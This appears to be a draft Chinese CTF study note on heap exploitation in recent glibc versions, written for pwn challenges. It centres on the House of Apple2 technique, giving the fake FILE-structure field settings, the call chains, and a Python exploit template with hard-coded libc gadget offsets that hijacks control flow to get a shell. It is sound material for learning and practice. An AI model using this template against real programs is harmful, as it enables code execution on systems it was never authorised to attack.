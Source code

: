 ```yaml
---
id: glibc-simple
aliases: []
tags:
  - Glibc
date: 2023-02-28 00:25:13
draft: true
title: GLIBC - exploitation-in-latest-glibc-0x00 基本思路
---
```


> [!TLDR] 
> **在选择更复杂的打法前，先看看能不能 IO leak 泄漏栈地址打 ROP（更容易调试）**

「卷 Glibc 版本」这件事情和常见的用户态 PWN 题（尤其是国内比赛）几乎完全绑定在了一起，故在此记录 2.33 失去 `__free_hook` 之后的常规题做法。主要包括：

- 有公式做题就是快之「只能申请大堆块 - Largebin Attack」
- 有公式做题就是快之「新版本下的控制流劫持首选 - [House of Apple2](https://bbs.kanxue.com/thread-273832.htm)」
- 典中典之「强网杯必考 off by null」

其实 IO 里面也远不只是 Apple2 这条利用链，但是这条链是要求最少 + 资料最多的，所有 IO 劫持控制流都绕不开篡改 `((struct _IO_FILE_plus *) _IO_list_all)->vtable`，利用思路差不多，就没必要去卷其它链。

> [!INFO] 
> 公式以外的情况多半时候都可以到持续更新的 [how2heap](https://github.com/shellphish/how2heap) 上找一些灵感，例如：
>
> - 在没有泄漏的情况下通过双重异或盲绕过 tcache 异或保护 - [safe link double protect](https://github.com/shellphish/how2heap/blob/master/glibc_2.36/safe_link_double_protect.c)
> - 在没有泄漏的情况下把 libc 相关地址放入 tcache 中 - [House of Water](https://github.com/shellphish/how2heap/blob/master/glibc_2.36/house_of_water.c)
> - 没有显示 free 时的现代版 House of Orange - [House of Tangerine](https://github.com/shellphish/how2heap/blob/master/glibc_2.39/house_of_tangerine.c)
> - 让 tcache double free 再次伟大 - [House of Botcake](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/house_of_botcake.c)
>
> 各种花里胡哨的利用方法也在持续更新，可以一直关注 [how2heap](https://github.com/shellphish/how2heap)，甚至还提供了网页端调试器，非常好 cheatsheet❤️

## Largebin Attack


## Apple2 板子

> [!quote]
> 对 fp 的设置如下：
>
> - `_flags` 设置为 `~(2 | 0x8 | 0x800)`，如果不需要控制 rdi，设置为0即可；如果需要获得 shell，可设置为 `  sh;`，注意前面有两个空格
> - `vtable` 设置为 `_IO_wfile_jumps/_IO_wfile_jumps_mmap/_IO_wfile_jumps_maybe_mmap` 地址（加减偏移），使其能成功调用 `_IO_wfile_overflow` 即可
> - `_wide_data` 设置为可控堆地址 A，即满足 `*(fp + 0xa0) = A`
> - `_wide_data->_IO_write_base` 设置为 0，即满足 `*(A + 0x18) = 0`
> - `_wide_data->_IO_buf_base` 设置为 0，即满足 `*(A + 0x30) = 0`
> - `_wide_data->_wide_vtable` 设置为可控堆地址 B，即满足 `*(A + 0xe0) = B`
> - `_wide_data->_wide_vtable->doallocate` 设置为地址 C 用于劫持 RIP，即满足 `*(B + 0x68) = C`
> - **`_lock` 设置为可写地址；`mode` 设置大于 0**
>
> 函数的调用链如下：
>
> ```c
> _IO_wfile_overflow
>     _IO_wdoallocbuf
>         _IO_WDOALLOCATE
>             *(fp->_wide_data->_wide_vtable + 0x68)(fp)
> ```

对于常规的 exit 中有如下调用利用链：

```c
exit
    __run_exit_handlers
        _IO_cleanup
            _IO_flush_all_lockp
                _IO_wfile_overflow
```

板子如下：

```python
"""
1630aa:>  48 8b 6f 48          >  mov    rbp,QWORD PTR [rdi+0x48]
1630ae:>  48 8b 45 18          >  mov    rax,QWORD PTR [rbp+0x18]
1630b2:>  4c 8d 6d 10          >  lea    r13,[rbp+0x10]
1630b6:>  c7 45 10 00 00 00 00 >  mov    DWORD PTR [rbp+0x10],0x0
1630bd:>  4c 89 ef             >  mov    rdi,r13
1630c0:>  ff 50 28             >  call   QWORD PTR [rax+0x28]
"""
magic_gadget = libc_base + 0x1630AA
leave_ret = libc_base + 0x0000000000050877
add_rsp_0x38_ret = libc_base + 0x0000000000054BF4
pop_rdi_ret = libc_base + 0x0000000000023B65
pop_rsi_ret = libc_base + 0x00000000000251BE
pop_rdx_ret = libc_base + 0x0000000000166262
pop_rax_ret = libc_base + 0x000000000003FA43

_lock = libc_base + 0x1F8A10
_IO_wfile_jumps = libc_base + libc.sym._IO_wfile_jumps
fake_IO_FILE = heap_base + 0x290

f1 = IO_FILE_plus_struct()
f1.flags = u64_ex("  sh;")
f1._lock = _lock
f1._wide_data = fake_IO_FILE + 0xE0
f1._mode = 1
f1.vtable = _IO_wfile_jumps

f1._IO_save_base = fake_IO_FILE + 0x510 + 0x100

payload = flat(
    {
        0: {
            0: bytes(f1)[0x10:],
            0xE0 - 0x10: {
                0x18: [0],
                0x30: [0],
                0xE0: [fake_IO_FILE + 0x200],
            },
            # 0x200 - 0x10: {0x68: [0xDEADBEEF]},
            0x200 - 0x10: {0x68: [magic_gadget]},
        },
    }
)
edit(0, payload)
```



